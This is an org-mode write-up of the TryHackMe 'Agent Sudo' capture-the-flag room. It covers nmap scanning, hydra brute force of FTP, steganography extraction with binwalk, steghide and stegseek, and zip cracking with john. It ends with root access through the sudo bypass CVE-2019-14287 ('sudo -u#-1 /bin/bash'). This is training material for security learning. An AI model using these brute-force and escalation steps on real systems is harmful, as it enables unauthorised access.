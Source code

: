 #+TITLE: TryHackMe - Agent Sudo writeup

https://tryhackme.com/room/agentsudoctf

* Scanning & Reconnaissance

	#+begin_src shell
		nmap -T4 -vv 10.10.91.45
		nmap -p 21,22,80 -sC -sV -vv 10.10.91.45

		PORT   STATE SERVICE REASON  VERSION
		21/tcp open  ftp     syn-ack vsftpd 3.0.3
		22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
		| ssh-hostkey:
		|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
		| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC5hdrxDB30IcSGobuBxhwKJ8g+DJcUO5xzoaZP/vJBtWoSf4nWDqaqlJdEF0Vu7Sw7i0R3aHRKGc5mKmjRuhSEtuKKjKdZqzL3xNTI2cItmyKsMgZz+lbMnc3DouIHqlh748nQknD/28+RXREsNtQZtd0VmBZcY1TD0U4XJXPiwleilnsbwWA7pg26cAv9B7CcaqvMgldjSTdkT1QNgrx51g4IFxtMIFGeJDh2oJkfPcX6KDcYo6c9W1l+SCSivAQsJ1dXgA2bLFkG/wPaJaBgCzb8IOZOfxQjnIqBdUNFQPlwshX/nq26BMhNGKMENXJUpvUTshoJ/rFGgZ9Nj31r
		|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
		| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHdSVnnzMMv6VBLmga/Wpb94C9M2nOXyu36FCwzHtLB4S4lGXa2LzB5jqnAQa0ihI6IDtQUimgvooZCLNl6ob68=
		|   256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
		|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOL3wRjJ5kmGs/hI4aXEwEndh81Pm/fvo8EvcpDHR5nt
		80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
		| http-methods:
		|_  Supported Methods: GET HEAD POST OPTIONS
		|_http-server-header: Apache/2.4.29 (Ubuntu)
		|_http-title: Annoucement
		Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
	#+end_src

	No anonymous login for FTP.

* Enumerating Services

** HTTP

	 The website displays the following text:

	 #+begin_src text
		 Dear agents,

		 Use your own codename as user-agent to access the site.

		 From,
		 Agent R
	 #+end_src

	 Are all codenames a single letter? We can use BurpSuite's Repeater to try them all out and we find the  following:

	 #+begin_src shell
		 curl -A C -L http://10.10.91.45

		 Attention chris, <br><br>

		 Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak! <br><br>

		 From,<br>
		 Agent R
	 #+end_src

* Gaining access

	The target has two other services: FTP and SSH. Let's try to brute force them with user 'chris'.

** FTP

	 #+begin_src shell
		 hydra -l chris -P /usr/share/wordlists/rockyou.txt 10.10.91.45 ftp

		 [DATA] attacking ftp://10.10.91.45:21/
		 [21][ftp] host: 10.10.91.45   login: chris   password: xxxxxxx
		 1 of 1 target successfully completed, 1 valid password found
	 #+end_src

	 #+begin_src shell
		 ftp 10.10.91.45
		 Connected to 10.10.91.45.
		 220 (vsFTPd 3.0.3)
		 Name (10.10.91.45:kali): chris
		 331 Please specify the password.
		 Password:
		 230 Login successful.

		 ftp> ls
		 200 PORT command successful. Consider using PASV.
		 150 Here comes the directory listing.
		 -rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
		 -rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
		 -rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
		 226 Directory send OK.
	 #+end_src

	 Let's take a look at the files.

	 #+begin_src shell
		 cat To_agentJ.txt

		 Dear agent J,

		 All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

		 From,
		 Agent C
	 #+end_src

	 Trying to extract info from 'cute-alien.jpg' with `steghide` but it is protected by passphrase.

	 #+begin_src shell
		 steghide info cute-alien.jpg

		 "cute-alien.jpg":
		 format: jpeg
		 capacity: 1.8 KB
		 Try to get information about embedded data ? (y/n) y
		 Enter passphrase:
		 steghide: could not extract any data with that passphrase!
	 #+end_src

	 A Zip archive is embedded in 'cutie.png', and it can be extracted from the file with `binwalk`.

	 #+begin_src shell
		 binwalk cute-alien.jpg

		 DECIMAL       HEXADECIMAL     DESCRIPTION
		 --------------------------------------------------------------------------------
		 0             0x0             JPEG image data, JFIF standard 1.01


		 binwalk cutie.png

		 DECIMAL       HEXADECIMAL     DESCRIPTION
		 --------------------------------------------------------------------------------
		 0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
		 869           0x365           Zlib compressed data, best compression
		 34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
		 34820         0x8804          End of Zip archive, footer length: 22


		 binwalk -e cutie.png
		 ls _cutie.png.extracted

		 365  365.zlib  8702.zip  To_agentR.txt
	 #+end_src


** Cracking the Zip archive

	 The files in the Zip archive are protected by a password.

	 #+begin_src shell
		 7z x _cutie.png.extracted/8702.zip

		 Extracting archive: _cutie.png.extracted/8702.zip
		 --
		 Path = _cutie.png.extracted/8702.zip
		 Type = zip
		 Physical Size = 280

		 Enter password (will not be echoed):
		 ERROR: Wrong password : To_agentR.txt
	 #+end_src

	 No problem, let's find the passwor with `john`.

	 #+begin_src shell
		 zip2john _cutie.png.extracted/8702.zip > hashes
		 john hashes -wordlist:/usr/share/wordlists/rockyou.txt

		 Using default input encoding: UTF-8
		 Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 256/256 AVX2 8x])
		 Will run 4 OpenMP threads
		 Press 'q' or Ctrl-C to abort, almost any other key for status
		 xxxxx            (8702.zip/To_agentR.txt)
		 1g 0:00:00:00 DONE (2021-06-05 10:02) 3.571g/s 87771p/s 87771c/s 87771C/s christal..280789
		 Use the "--show" option to display all of the cracked passwords reliably
		 Session completed
	 #+end_src

	 We can now extract and read the text file from the Zip archive.

	 #+begin_src shell
		 cat _cutie.png.extracted/To_agentR.txt

		 Agent C,

		 We need to send the picture to 'xxxxxxxx' as soon as possible!

		 By,
		 Agent R
	 #+end_src

	 Cyberchef can help figuring the encoding of 'xxxxxxxx'.

	 #+begin_src shell
		 echo xxxxxxxx | base64 -d
	 #+end_src

	 Let's try this as the passphrase for 'cute-alien.jpg'.

** cute-alien.jpg

	 #+begin_src shell
		 steghide extract -sf cute-alien.jpg

		 Enter passphrase:
		 wrote extracted data to "message.txt".

		 cat message.txt

		 Hi james,

		 Glad you find this message. Your login password is xxxxxxxxxxx!

		 Don't ask me why the password look cheesy, ask agent R who set this password for you.

		 Your buddy,
		 chris
	 #+end_src

*** Brute forcing with Stegseek

		#+begin_src shell
			stegseek cute-alien.jpg /usr/share/wordlists/rockyou.txt

			StegSeek 0.6 - https://github.com/RickdeJager/StegSeek
			[i] Found passphrase: "xxxxxx"
			[i] Original filename: "message.txt".
			[i] Extracting to "cute-alien.jpg.out".
		#+end_src

* User flag

	#+begin_src shell
		ssh james@10.10.91.45
		james@agent-sudo:~$ cat user_flag.txt
	#+end_src

* Privelege Escalation & root flag

	#+begin_src shell
		sudo -l

		User james may run the following commands on agent-sudo:
		(ALL, !root) /bin/bash
	#+end_src

	A quick search for "sudo -l (ALL, !root) /bin/bash" let us know about CVE-2019-14287.

	[https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14287]

	#+begin_src shell
		sudo -V
		sudo -u#-1 /bin/bash

		root@agent-sudo:~# cat /root/root.txt
	#+end_src
